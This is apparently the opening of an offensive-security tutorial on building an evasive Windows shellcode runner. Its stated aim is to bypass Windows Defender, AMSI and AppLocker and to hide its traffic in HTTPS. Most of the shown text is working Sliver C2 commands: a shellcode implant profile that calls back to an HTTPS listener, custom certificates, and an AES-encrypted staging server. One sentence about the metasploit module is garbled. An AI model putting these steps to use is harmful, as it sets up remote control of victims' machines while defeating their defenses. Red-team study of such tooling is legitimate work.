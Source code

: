 # Defining the Goal

Our goal is to create a shellcode runner that has the following caracteristcs :
### it has to be written in a language that is supported by default on windows:
- For that we will use dotnet framework 4.0 which is installed by default on windows 10 operating systems. even updated legacy systems will have it installed. we will use it with a combination of powershell and C#.
### it has to bypass the commun defenses found on the modern windows operating systems:
- the defenses we will attempt to bypass are windows defender , AMSi , and applocker. 
### it has to use a communly whitelisted protocol in order to bypass the firewall rules and  fit in with the normal traffic:
- we will use the HTTPS protocol with custom SSL certificates and keys in order to maximze our chances of getting our code executed. we will also use AES encyption to encrypt the the shellcode to offer additional layers of obfuscation.

# Setting Up Sliver C2 

- you can follow the [wiki page][] to install Sliver C2.
- when the installation is done. First we will get the Sliver C2 service started by running the following command:
```bash
sudo systemctl start sliver
```
- next we lunch sliver (by running the "sliver" command from the shell). after that we will create a new profile by running this command :
```bash
profiles new -b  https://192.168.1.11:443 --skip-symbols --format shellcode --arch amd64 local
# --skip-symbols to speed up the building process
# local is the name of the profile. you can use any name you want.
```
- next we will start our listener . we will have to specify the same port , ip address and protocol we specifiled when we created the profile. for the SSL cert and key , i used the metasploit module "" on google.com . you can follow the steps on [this article](https://www.darkoperator.com/blog/2015/6/14/tip-meterpreter-ssl-certificate-validation) in order to achieve that:
```bash
https -L 192.168.1.11 -l 443 -c /home/ycf/blog/sliver/crt.crt -k /home/ycf/blog/sliver/key.key
```
- next we will use the stage-listener command to lunch our staging server. we will specify the port 8080 with the HTTPS protocol . we will specify the same SSL cert and key we got from metasploit. we will also specify the compression algorithm in addition to the aes encryption keys as follows :
```bash
stage-listener --url https://192.168.1.11:8080 --profile local -c /home/ycf/blog/sliver/crt.crt -k /home/ycf/blog/sliver/key.key -C deflate9 --aes-encrypt-key D(G+KbPeShVmYq3t6v9y$B&E)H@McQfT --aes-encrypt-iv 8y/B?E(G+KbPeShV 
```
- to confirm that our listeners are running , we run the jobs command :
```bash
jobs
```
![xpn](/post/jobs.png)
